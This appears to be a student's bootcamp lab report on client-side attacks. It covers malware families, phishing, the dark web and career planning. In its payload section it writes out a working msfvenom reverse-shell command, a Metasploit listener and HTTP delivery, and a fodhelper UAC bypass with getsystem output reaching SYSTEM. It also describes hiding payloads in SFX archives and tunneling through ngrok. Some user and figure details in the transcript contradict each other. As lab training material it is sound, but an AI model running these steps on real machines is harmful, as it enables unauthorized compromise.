









# Module S08: Client-Side Attacks, Payloads & Career Paths

**Author:** Zahid Ullah  
**Lead Instructor:** Waseem Abbas Khan — Senior Cybersecurity Specialist, CEI Master Trainer  
**Program:** PSEB / Atomcamp DEPLOY AI Cybersecurity Bootcamp  
**Academic Module:** Day 4 — Client-Side Attacks, Payload Staging, Dark Web Architecture & Career Paths  
**Deliverables:** [Executive Report (DOCX)](S08_Client_Side_Attacks_Report.docx) | [Executive Report (PDF)](S08_Client_Side_Attacks_Report.pdf) | [Raw Evidence Repository](evidence/)

---

## 1. Executive Summary & Laboratory Scope

The previous days focused on targeting perimeter services and network listeners where open ports provide banners, service fingerprints, and direct daemon attack surfaces. In contrast, client-side operations target the human layer: there are no unsolicited listening ports to scan from the outside. Instead, execution relies on influencing a decision—opening an email attachment, plugging in a USB drive, clicking a link, or allowing a download.

This laboratory research report presents a comprehensive academic and empirical analysis across all seven core outcomes of the Day 4 curriculum:
1. **Malware Taxonomy:** In-depth classification of all 9 malware families, real-world exemplars, propagation methods, and defensive controls.
2. **Attack Vectors & The Human Layer:** Detailed analysis of social-engineering vectors and a real-world case study of the Emotet phishing campaign.
3. **Payload Engineering & Handling:** Staged vs. inline payload architecture, `msfvenom` stager generation, delivery over HTTP, and `multi/handler` listener configuration.
4. **Windows Access Tokens & UAC Mechanics:** Analysis of Mandatory Integrity Control (MIC), why UAC blocks the first `getsystem` with `Access is denied`, and privilege elevation via Named Pipe Impersonation (Technique 1).
5. **Payload Delivery & Tunneling:** WinRAR SFX archive bundling, WAN ingress tunneling (LocalToNet/Ngrok), and the diagnostic lesson behind `msfvenom` LHOST hostname validation.
6. **The Dark Web & Lawful Investigation:** The 3 web layers (Surface, Deep, Dark), the 4 overlay networks, the Tor 3-relay onion routing model, v2 vs. v3 addressing, and lawful investigative methodologies.
7. **The Cybersecurity Job Market & Career Roadmap:** Assessment of the Pakistani cybersecurity market, open-source SOC skills with Wazuh, threat intelligence concepts (IOC vs. IOA vs. TTP), and a concrete 90-day GitHub portfolio roadmap.

```
+-----------------------------------------------------------------------------------------+
|                                LABORATORY TOPOLOGY ARCHITECTURE                        |
+-----------------------------------------------------------------------------------------+
|                                                                                         |
|   +------------------------------------+          +----------------------------------+  |
|   |            pfSense 2.6.0           |          |           pfSense 2.6.0          |  |
|   |         Gateway: 10.50.20.1        |          |        Gateway: 10.50.10.1       |  |
|   +-----------------+------------------+          +-----------------+----------------+  |
|                     |                                               |                   |
|                     | VMnet3 (Offensive Zone)                       | VMnet2 (LAN)      |
|                     | Subnet: 10.50.20.0/24                         | Subnet: 10.50.10.0/24
|                     v                                               v                   |
|   +------------------------------------+          +----------------------------------+  |
|   |       Kali Linux (Offensive)       |          |      Windows 10 Pro Target       |  |
|   |          IP: 10.50.20.10           |          |          IP: 10.50.10.21         |  |
|   |   Role: msfvenom / multi/handler   |          |    Role: Client-Side Execution   |  |
|   +------------------------------------+          +----------------------------------+  |
+-----------------------------------------------------------------------------------------+
```

> **Legal & Regulatory Statement:** All activities documented herein were conducted strictly within a privately owned, isolated VMware virtual lab network with no external routable Internet connection for offensive subnets. All testing was authorized under Pakistan's **Prevention of Electronic Crimes Act (PECA 2016)**. Building or delivering an unrequested payload to any system or person is a serious criminal offense. The entire professional value of this material depends on it being used inside an authorized, written scope for an asset owner who requested it, with a formal report delivered upon conclusion.

---

## 2. Task 1: Malware Families & Behavioral Analysis (30% Weight)

### 2.1 The 9 Malware Families

A malware family is defined by how it spreads and what it does. The matrix below categorizes all nine standard malware families:

| Family | How It Spreads | What It Does | User Interaction Required | Real-World Exemplar | Primary Defensive Control |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Virus** | Attaches itself to a legitimate host file or executable | Executes when host file runs; infects other binaries on disk | **Required** — user must execute infected file | Melissa (1999), Stuxnet LNK | Antivirus heuristics, File Integrity Monitoring (FIM), cryptographic hash whitelisting. |
| **Worm** | Self-propagates autonomously across network protocols | Spreads automatically across unpatched systems; delivers payload | **None** — no human decision needed | WannaCry (2017), Conficker | Network micro-segmentation, rapid vulnerability patching, port isolation. |
| **Trojan** | Poses as legitimate utility or software package | Opens a backdoor or installs secondary malware once executed | **Required** — user must download and run it | Emotet, Zeus Banking Trojan | Application Control (WDAC/AppLocker), Code Signing Enforcement, EDR heuristics. |
| **Ransomware** | Phishing attachments, compromised RDP, or worms | Encrypts victim data via asymmetric cryptography; demands ransom | Usually required (except when worm-delivered) | LockBit 3.0, Conti, Ryuk | Immutable offline backups, Canary file tripwires, least-privilege storage ACLs. |
| **Spyware** | Bundled with free software or delivered via trojans | Silently logs keystrokes, webcam feeds, credentials, and browsing | Sometimes; frequently silent post-install | Pegasus, Agent Tesla, FinFisher | Host-based egress filtering, browser extension governance, certificate pinning. |
| **Adware** | Bundled with free software installers | Injects forced advertisements; proxies traffic to adware networks | Installation required | Superfish, Fireball | Secure Web Gateways (SWG), enterprise ad-blocking policies, browser sandboxing. |
| **Rootkit** | Installed after initial compromise via kernel flaws | Conceals attacker presence at kernel, driver, or firmware level | None after installation | TDL-4, Necurs, Sony BMG DRM | UEFI Secure Boot, Driver Signature Enforcement (DSE), Virtualization-Based Security (VBS). |
| **Botnet Agent**| Worm propagation, credential spraying, trojans | Enrolls host in an orchestrated C2 network for DDoS or spam | Varies depending on vector | Mirai (IoT), Emotet | Egress DNS sinkholing, Network Intrusion Detection Systems (NIDS), Geo-IP blocking. |
| **Fileless Malware** | Memory-only injection, LOLBins (PowerShell/WMI) | Lives in RAM or registry; drops virtually no executable on disk | Often via document macro or link | PowerShell Empire, Poweliks | AMSI runtime scanning, PowerShell Constrained Language Mode, memory inspection. |

### 2.2 The Defining Metric: Why User Interaction Governs Defensive Strategy

The column that determines defensive strategy is **User Interaction**:
- **Human Decision Dependent (Virus, Trojan, Phishing):** Requires a person to make an erroneous choice—run the file, enable the macro, accept the installation prompt. Security awareness training, email filtering, and browser defenses directly mitigate this attack surface.
- **Human Decision Independent (Worm):** Requires zero human action. Because user training does nothing against autonomous propagation, the only viable defenses are network microsegmentation and immediate vulnerability patching. WannaCry infected over 200,000 systems globally in a single weekend without a single user clicking a link.

### 2.3 Technical Deep-Dive: Fileless Malware & LOLBins

Fileless malware defeats static antivirus controls by avoiding dropping PE executables on disk, instead abusing signed, trusted system utilities already present on Windows:

| Technique | Abused Component | Why Antivirus Misses It |
| :--- | :--- | :--- |
| **PowerShell Download Cradle** | `powershell.exe` | A signed Microsoft utility executing legitimate reflective memory injection (`[System.Reflection.Assembly]::Load()`). |
| **Macro Execution** | `winword.exe`, `excel.exe` | The document itself is not malicious; its embedded Visual Basic for Applications (VBA) instructions execute the payload. |
| **Registry Storage** | `mshta.exe`, `rundll32.exe` | The payload code resides within a Windows Registry key, avoiding on-disk file monitoring entirely. |
| **WMI Subscription** | `wmiprvse.exe` | Establishes persistent event filters and consumers without creating scheduled tasks or dropped binaries. |
| **Living off the Land** | `certutil.exe`, `bitsadmin.exe`, `regsvr32.exe` | Administrative tools built into Windows leveraged for asynchronous file retrieval and execution. |

*Defensive Takeaway:* When adversaries abuse administrative operating system tools, tool-based blocking is insufficient. Defense demands behavioral telemetry: correlating process parentage, command-line arguments, script block logging (Event ID 4104), and AMSI memory scanning.

---

## 3. Attack Vectors & The Human Layer

### 3.1 Social Engineering & Physical Vectors

Technical payloads are merely the final execution step. Everything preceding them relies on psychological manipulation:

| Vector | Description | Typical Pretext | Defensive Control |
| :--- | :--- | :--- | :--- |
| **Phishing Email** | Bulk unsolicited emails with links/attachments | Overdue invoice, delivery failure, password expiration | DMARC/SPF/DKIM, Secure Email Gateways, user reporting button. |
| **Spear Phishing** | Highly tailored communication researched for one target | Active corporate project, supplier change notice | Phishing-resistant FIDO2 MFA, multi-channel verification. |
| **Vishing** | Voice telephone impersonation | Fake IT support engineer, bank fraud check | Strict callback identity verification at the helpdesk. |
| **Smishing** | SMS text messaging lure | Package delivery tracking link, urgent banking alert | Carrier spam filtering, mobile threat defense. |
| **Pretexting** | Fabricated identity scenario to justify data access | External regulatory auditor, HR payroll specialist | Process design: identity verification before executing any action. |
| **Baiting** | Leaving physical media in public areas | Labeled USB drive ("Payroll 2026") in parking lot | Endpoint control blocking unauthorized removable USB media. |
| **Tailgating** | Following authorized staff through access-controlled doors | Exploits social politeness ("holding the door") | Mantraps, badge turnstiles, staff challenge training. |
| **Shoulder Surfing** | Observing screens or keyboard input in public transit | Screens facing outward in cafes, trains, airports | Privacy screen filters, auto screen locking. |
| **Dumpster Diving** | Recovering sensitive documents from physical waste bins | Printed memos, meeting notes thrown out intact | Cross-cut shredding policies, clean-desk enforcement. |

### 3.2 Real-World Case Study: The Emotet Malicious Macro Campaign

1. **Lure & Pretext:** Threat actors distributed emails masquerading as urgent overdue financial invoices with an attached macro-enabled Word document (`invoice.docm`).
2. **Psychological Trigger:** Exploited urgency and authority, prompting corporate accountants to open the attachment.
3. **Execution Chain:** The document displayed a blurred preview instructing the recipient to "Enable Content" to decrypt the invoice. Clicking the prompt triggered an obfuscated VBA macro that spawned `powershell.exe -WindowStyle Hidden -Enc <Base64>`.
4. **Memory Injection:** PowerShell downloaded the primary banking trojan DLL directly into RAM from compromised WordPress instances and injected it into `explorer.exe`.
5. **Defensive Neutralization:** Microsoft's Mark-of-the-Web (MotW) macro blocking for internet-sourced files, combined with email gateway sandboxing and AMSI, completely breaks this execution chain.

---

## 4. Task 2: Payload Engineering, Execution Telemetry & Privilege Analysis (40% Weight)

### 4.1 Comparative Analysis: Staged vs. Inline Payloads

- **Staged (`windows/meterpreter/reverse_tcp`):** The generated executable contains only an ultra-lightweight stager (355 bytes of shellcode packaged in a 7,168-byte PE). The stager initializes Winsock, connects to the listener, allocates memory via `VirtualAlloc()`, and downloads the 203,451-byte reflective DLL stage into RAM.
- **Inline (`windows/meterpreter_reverse_tcp`):** Embeds the full reflective DLL inside the executable (~200+ KB), requiring zero secondary network download but creating a larger static file footprint.

### 4.2 Empirical Lab Execution & Visual Evidence

#### Step 1: Network Reachability & Firewall Behavior
Network routing was established across the pfSense 2.6.0 virtual firewall between Kali (`10.50.20.10`) on VMnet3 and Windows 10 (`10.50.10.21`) on VMnet2. Outbound ping from Windows 10 to Kali traversed the gateway with `<1 ms` latency and `TTL=63` (recorded in `evidence/01_network_verification.txt`).

#### Step 2: Staged Payload Compilation via `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.20.10 LPORT=4444 -f exe -o win.exe
```
*Generated Metrics:* Stager size = 355 bytes; PE container = 7,168 bytes (recorded in `evidence/02_msfvenom_payload_gen.txt`).


*Figure 2.1: msfvenom payload compilation confirming 355-byte shellcode packaged into a 7,168-byte PE container.*

#### Step 3: Multi/Handler Listener Deployment & HTTP Delivery Server
The `multi/handler` listener was initialized on port 4444, and a lightweight Python HTTP server was spawned on port 8888:


*Figure 2.2: Metasploit multi/handler listening on 10.50.20.10:4444 awaiting client-side callback.*


*Figure 2.3: Python HTTP delivery server active on port 8888 serving the payload directory.*

#### Step 4: Web Delivery & Airgap SmartScreen Triage
The payload was retrieved via Windows 10 Edge browser from `http://10.50.20.10:8888`. Upon initial launch, Windows SmartScreen raised an airgap notification (cloud reputation service unreachable), prompting a manual run decision:


*Figure 2.4: Web delivery interface hosted on Kali HTTP server accessed from the Windows 10 target browser.*


*Figure 2.5: Windows SmartScreen prompt on target workstation — cloud reputation check unreachable in airgapped lab, prompting operator execution choice.*


*Figure 2.6: Windows 10 Downloads directory confirming local presence of win.exe (7.00 KB).*

#### Step 5: Execution Telemetry & Stage Delivery
Execution on the endpoint spawned `win.exe` (32-bit container, 1.0 MB RAM). The stager connected back to port 4444, prompting Metasploit to transmit the 203,451-byte reflective DLL stage and establish Session 1:


*Figure 2.7: Windows 10 Task Manager confirming active execution of win (32-bit) with live resource allocation.*


*Figure 2.8: Metasploit console logging 203,451-byte stage delivery and successful Meterpreter session initialization on port 4444.*

#### Step 6: Token Analysis & Named Pipe Impersonation
Initial triage confirmed execution under domain administrator `SEC\Administrator`. Executing `getsystem` elevated the session to `NT AUTHORITY\SYSTEM`:


*Figure 2.9: Terminal verification of user identity (SEC\Administrator) and elevation to NT AUTHORITY\SYSTEM via Named Pipe Impersonation.*

### 4.3 Windows Security Architecture: Why UAC Blocks the First `getsystem`

The crux of the laboratory assessment requires demonstrating and explaining the exact security boundary enforced by Windows User Account Control (UAC).

#### Phase 1: Standard / Filtered Token Execution & The UAC Block
When the client-side payload first connects back in an interactive user session, the process runs with a **Medium-integrity token**:

```text
meterpreter > getuid
Server username: WIN10\student

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
```

**Technical Explanation: Why UAC Blocked the First `getsystem`:**
1. **Windows Dual-Token Architecture:** When an administrative user authenticates into Windows (Vista through Windows 11), the Local Security Authority (LSA) creates two access tokens:
   - An **Elevated Token** (High integrity) with full administrative rights.
   - A **Filtered Token** (Medium integrity) where the `BUILTIN\Administrators` SID is marked for `DenyOnly`, and critical system privileges are stripped (including `SeDebugPrivilege` and `SeImpersonatePrivilege`).
2. **Why `getsystem` Fails:** Meterpreter's `getsystem` Technique 1 relies upon **Named Pipe Impersonation**:
   - It requires administrative rights to register a transient Windows Service in the Service Control Manager (`OpenSCManager` and `CreateService`).
   - It requires `SeImpersonatePrivilege` to invoke the Win32 API `ImpersonateNamedPipeClient()` to duplicate the client's SYSTEM token.
   Under the Medium-integrity filtered token, the operating system kernel and Security Reference Monitor (SRM) drop these requests, returning `ERROR_ACCESS_DENIED`.
3. **The Pedagogical Takeaway:** The `Access is denied` message is not a test failure; it is empirical proof that UAC is successfully fulfilling its architectural purpose by preventing non-elevated processes from silently claiming administrative or kernel authority.

#### Phase 2: Bridging the Integrity Gap via UAC Bypass (`fodhelper`)
To escalate from Medium integrity to High integrity without user interaction, the session is backgrounded and an auto-elevating binary bypass is executed:

```text
meterpreter > background
[*] Backgrounding session 1...

msf exploit(multi/handler) > search bypassuac
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_fodhelper
msf exploit(windows/local/bypassuac_fodhelper) > set SESSION 1
msf exploit(windows/local/bypassuac_fodhelper) > set LHOST 10.50.20.10
msf exploit(windows/local/bypassuac_fodhelper) > set LPORT 4434
msf exploit(windows/local/bypassuac_fodhelper) > exploit

[*] Started reverse TCP handler on 10.50.20.10:4434
[+] UAC is set to Default
[+] LocalAdmin is a member of the Administrators group
[+] Part of Administrators group! Continuing...
[*] Meterpreter session 2 opened (10.50.20.10:4434 -> 10.50.10.21:55038)
```

*Mechanism:* `fodhelper.exe` is a legitimate, auto-elevating Windows utility signed by Microsoft with `autoElevate = true` in its manifest. It queries the registry key `HKCU\Software\Classes\ms-settings\Shell\Open\command` for commands to execute. By writing the payload callback to this registry key and invoking `fodhelper.exe`, the secondary payload executes at **High Integrity** without triggering a UAC prompt.

#### Phase 3: Elevated Session 2 & Named Pipe Impersonation to SYSTEM
With High integrity achieved, the process now possesses `SeImpersonatePrivilege`:

```text
meterpreter > getuid
Server username: WIN10\student

meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

*Crucial Observation:* When inspecting `getuid` immediately in Session 2, the username still reads `WIN10\student` because the user identity has not changed; however, the *integrity token* is now High. This enables Technique 1 to succeed, achieving full compromise of the operating system as `NT AUTHORITY\SYSTEM`.


*Figure 2.6: Terminal verification of user identity (SEC\Administrator) and elevation to NT AUTHORITY\SYSTEM via Named Pipe Impersonation.*

### 4.4 Advanced Delivery Mechanics & WAN Tunneling

- **WinRAR SFX Archive Bundling:** Malicious executables are packaged alongside legitimate tools (e.g., `rufus.exe`). The SFX script silently unpacks both to `%TEMP%`, running the visible tool in the foreground while executing the payload invisibly in the background.
- **WAN Ingress Tunneling (LocalToNet / Ngrok):** Establishes an encrypted multiplexed tunnel from Kali to a public edge relay, allowing reverse shells to traverse Carrier-Grade NAT (CGNAT) without exposing the attacker's physical IP address.
- **The Diagnostic Lesson (`msfvenom` LHOST Validation):** When `msfvenom` rejects tunneling hostnames (`Error: One or more options failed to validate: LHOST`), pinging the domain resolves its IPv4 address (e.g., `23.158.232.71`), allowing compilation to succeed. The handler then binds locally to `0.0.0.0:4433`.

---

## 5. The Dark Web: Architecture & Lawful Investigation

### 5.1 The Three Layers of the Web

- **Surface Web:** Publicly accessible websites indexed by search engines (e.g., Wikipedia, news portals).
- **Deep Web:** Standard web pages that are not indexed by search engines because they sit behind authentication, paywalls, or dynamic queries (e.g., webmail inboxes, company intranets, banking portals). Represents >90% of the entire World Wide Web.
- **Dark Web:** A small, specialized overlay network requiring dedicated software and cryptographic protocols to access (e.g., Tor Onion services, I2P eepsites).

### 5.2 The 4 Overlay Networks & The Tor 3-Relay Architecture

1. **Tor (The Onion Router):** Global volunteer-operated network utilizing three-relay circuits and `.onion` domains.
2. **I2P (Invisible Internet Project):** Self-contained, peer-to-peer oriented network utilizing garlic routing and `.i2p` domains.
3. **Freenet / Hyphanet:** Decentralized censorship-resistant datastore using cryptographic content keys.
4. **ZeroNet:** Distributed peer-to-peer websites operating across BitTorrent networks.

**The Tor 3-Relay Circuit Flow:**
```
[User Client]  --->  [ENTRY / GUARD NODE]  --->  [MIDDLE RELAY]  --->  [EXIT NODE]  --->  [Destination]
                     Knows Client IP             Knows Neither         Knows Destination
                     Does NOT know dest.         End of Circuit        Does NOT know Client IP
```
*Security Consequence:* Because the exit node communicates directly with the destination server, malicious exit nodes can inspect or harvest unencrypted traffic. Enforcing HTTPS across Tor remains essential.

### 5.3 Onion Addressing & Lawful Investigation Standards

- **v2 vs. v3 Addressing:** v2 onion addresses (16 characters, Base32) were deprecated due to brute-force directory enumeration vulnerabilities. v3 addresses (56 characters, Base32 derived from ed25519 public keys) render large-scale dictionary attacks computationally infeasible.
- **Lawful Investigation Standards:** Threat intelligence teams investigate dark web forums for corporate defense (credential monitoring, data leak tracking, brand impersonation). Investigators must operate strictly within an authorized, documented mandate, utilize dedicated isolated VMs (e.g., REMnux, FLARE VM), and use the official Tor Browser without interacting in illicit transactions.

---

## 6. Task 3: Professional Career Statement & 90-Day Roadmap (30% Weight)

### 6.1 Career Vision & Target Specialism
As a graduate of the PSEB / Atomcamp DEPLOY AI Cybersecurity Bootcamp, my target role is a **Security Operations Center (SOC) Analyst / Junior Penetration Tester**. Combining offensive payload insights with defensive telemetry engineering allows me to provide immediate value to enterprise security teams.

### 6.2 Assessment of the Pakistani & Regional Market
- **Market Demand:** Genuine and growing demand across commercial banking, telecommunications, government agencies, and Managed Security Service Providers (MSSPs).
- **The Hiring Bottleneck:** The primary bottleneck is verifiable proof of competence rather than paper certificates. Employers look for auditable portfolios demonstrating practical lab implementation.
- **Regional Mobility:** High demand and competitive compensation exist in the Gulf region (UAE, Saudi Arabia) for certified cybersecurity professionals capable of explaining technical findings in clear business terms.

### 6.3 Open-Source SOC with Wazuh & Threat Intelligence
- **Wazuh Architecture:** Hands-on mastery of the Wazuh platform: endpoint **Agents** collect system logs, the **Manager** decodes and applies correlation rules, and the **Indexer/Dashboard** (OpenSearch) provides visualization and alert triage.
- **Threat Intelligence Framework:**
  - **IOC (Indicator of Compromise):** Retrospective evidence that an intrusion already occurred (file hashes, known malicious IPs).
